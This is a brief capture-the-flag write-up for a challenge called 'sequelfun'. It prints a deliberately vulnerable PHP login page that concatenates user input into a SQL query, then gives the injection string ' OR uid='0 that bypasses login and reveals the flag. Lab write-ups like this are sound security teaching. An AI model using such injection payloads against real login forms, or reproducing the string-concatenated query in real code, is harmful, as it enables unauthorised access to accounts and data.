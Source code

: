 # sequelfun
---
## Solution
1. See the php file, we can use sql injection. Also note that the uid is also equal 0 to get flag
```
<?php
include ("config.php");
if (isset ($_GET['user']) && isset ($_GET['pass'])) {
  $user = $_GET['user'];
  $pass = $_GET['pass'];
  if (strpos ($user, '1') === false && strpos ($pass, '1') === false) {
    $conn = new mysqli ($servername, $username, $password, $dbname);
    $result = mysqli_query ($conn, "SELECT * FROM users WHERE user='" . $user . "' AND pass='" . $pass . "'", MYSQLI_STORE_RESULT); // TO-DO: Remove elf:elf account
    if ($result === false) {
      echo "<b>Our servers have run into a query error. Please try again later.</b>";
    } else {
      if ($result->num_rows !== 0) {
        $row = mysqli_fetch_array ($result, MYSQLI_ASSOC);
        echo "<h1>You are logged in as: " . $row["user"] . "</h1><br>";
        echo "<b class='flag'>";
        if ($row ["uid"] === "0")
          echo $flag;
        else
          echo "Welcome elf!";
        echo "</b>";
      } else {
        echo "<b>Login fail.</b>";
      }
    }
  } else {
    echo "<b>I don't like the number 1 :(</b>";
  }
} else {
  echo '<form class="center">
    <h1>Santa Login:</h1>
    <label>Username:</label> <input type="text" name="user" autocomplete="off"><br>
    <label>Password:</label> <input type="password" name="pass" autocomplete="off"><br>
    <input type="submit" value="Connect">
  </form>';
}
?>
```
2. in username enter ' OR uid='0 and password enter ' OR uid='0
and query bacomes 
```
SELECT * FROM users WHERE user='' OR uid='0' AND pass='' OR uid='0'
```
and we can get the flag
